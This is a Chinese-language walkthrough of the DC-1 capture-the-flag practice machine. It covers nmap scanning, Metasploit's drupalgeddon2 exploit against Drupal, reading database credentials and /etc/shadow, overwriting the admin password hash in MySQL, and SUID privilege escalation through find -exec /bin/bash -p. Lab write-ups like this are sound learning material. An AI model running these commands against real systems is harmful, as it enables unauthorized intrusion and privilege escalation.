


记录一下dc靶机系列的漏洞，本次学习的是DC-1，涉及的知识包括msf利用历史漏洞获取shell，mysql数据库更改密码，suid提权
信息收集
先来查看一下dc-1靶机的mac地址：
arp扫描存在的主机：
1 | arp-scan -l |
目标靶机ip是：192.167.130.137，使用nmap扫描靶机存在的端口：
1 | nmap -A 192.168.130.137 |
开放了22-ssh服务，80-http服务，以及111端口，可以尝试一下暴力破解ssh的账号密码
1 | nmap --script=ssh-brute 192.168.130.137 |
但结果是失败的，我们访问下80端口服务：
这里有Request new password，尝试重置密码，还是失败，但我们确认了存在一个用户名：admin
然后发现该web页面是Drupal框架，也可以通过wappalyzer插件找到
msf获取shell
既然我们已知该系统，那么我们可以通过msf查看下存在的历史漏洞
1 | msfconsole |
这里我们准备使用18年的漏洞drupal_drupalgeddon2，可以看下这个漏洞产生的原理

call_user_func($a,$b)函数调用两个参数，参数a可以调用系统命令，而参数b就是命令的参数，而此函数并未对输入进行任何的过滤，所以就产生了漏洞，我们直接用msf打这个漏洞
1 | use exploit/unix/webapp/drupal_drupalgeddon2 |
拿到shell，接着查看有没有flag文件
1 | cd |
flag1
有两个flag文件，flag1.txt和flag4.txt，查看下flag1的内容
1 | cat /var/www/flag1.txt |
flag2
提到配置文件，那么我们就看下配置文件settings.php的内容
1 | cat `find / -name settings.php` |
哦吼，这里的flag2的信息提示我们暴力破解和字典并非唯一进入web服务的方式，那就是必须用其他方法喽
这里的数据库信息全部泄露了，那我们就连接一下，先切换到交互式shell：bash
1 | python -c 'import pty;pty.spawn("/bin/bash")' |
mysql修改密码
尝试连接上mysql
1 | mysql -u dbuser -p |
查看当前的数据库
1 | show databases; |
第一个是默认的数据库（自带），所以我们使用第二个，查看里面的表
1 | use drupaldb; |
发现了两个有用的表：node和users，这里的node表是因为drupal node机制理解，在drupal中通过节点类控制整个页面内容，相关资料：https://www.cnblogs.com/amw863/p/4551889.html
1 | select * from node; |


根据这里的uid判断出必须以admin登录才能拿到flag3，这里有admin的hash值，但是如果我们想硬破解的话，可以在cmd5上破解，但需要花钱，而且flag2提示不需要暴力破解，那我们换种思路，我们利用加密的脚本，生成admin的hash值
1 | php scripts/password-hash.sh admin |

把admin的密码更换成我们刚才生成的hash值
1 | update users set pass='$S$DTs7vLkSSZnJRBNX.kAsHHWW.MF4Izf0IH.gtkpdXOJo1922vTUD' where name='admin'; |
flag3
我们登录web端：admin/admin，在content处发现flag3

Special PERMS will help FIND the passwd - but you’ll need to -exec that command to work out how to get what’s in the shadow.
flag4
提示需要使用find命令，执行exec获取shadow内容；我们看看刚才的flag4的内容
1 | cat /home/flag4/flag4.txt |
提示说需要使用root权限才可以，那我们就需要提权了，先看下shadow和passwd的内容：
1 | cat /etc/shadow |
shadow没权限，passwd发现flag4用户：x表示密码被保存在 /etc/shadow 文件中，而不是明文显示在这里；UID用来唯一标识用户的数字，0 是超级用户（root），大于 1000 的通常是普通用户；GID该用户所属的主组 ID，组信息可以在 /etc/group 文件中查找；GECOS通常是用户的备注信息；Home directory用户登录后的默认工作目录；Shell用户登录后使用的 shell 类型，例如 bash、sh、nologin 等，因为没有flag4密码，这里也无法切换到flag4用户
SUID提权
SUID：Set User ID，SUID 是一种特殊的文件权限，当一个文件有 SUID 权限时，它会以该文件所有者的身份运行，而不是当前执行它的用户身份，例如，如果一个文件由 root 拥有并设置了 SUID，普通用户执行它时，该程序会以 root 权限运行
我们先看下有suid权限的可提权的命令
继续执行：
1 | find / -perm -u=s -type f 2>/dev/null |
各参数含义：-perm -u=s：查找“用户位”被设置了 SUID 的文件（即权限位中有 s）；-type f：限定为普通文件（非目录、设备等）；2>/dev/null：2指的是“标准错误输出”，>表示“重定向”，/dev/null是一个特殊的黑洞设备，所有写入它的内容都会被丢弃
里面有/usr/bin/find，我们看下该文件所属用户
1 | ls -l /usr/bin/find |
可见文件所属用户，所属组都是root，下面开始提权：
1 | find . -exec /bin/bash -p \; -quit |
find 是 SUID 的（以 root 身份运行），-exec 执行的命令也就以 root 身份运行，bash -p 启动后不会降权，所以拿到了 root shell
flag5
查找最终的flag：
1 | find / -name *flag* |
本次渗透就到此结束了！！！
在msf上显示这个框架有很多历史漏洞，这里也只使用了一个，使用其他的也能拿到shell
参考文章：
https://www.cnblogs.com/Lmg66/p/14038071.html
https://www.freebuf.com/defense/376418.html
少年自有凌云志，不惧人间万尺冰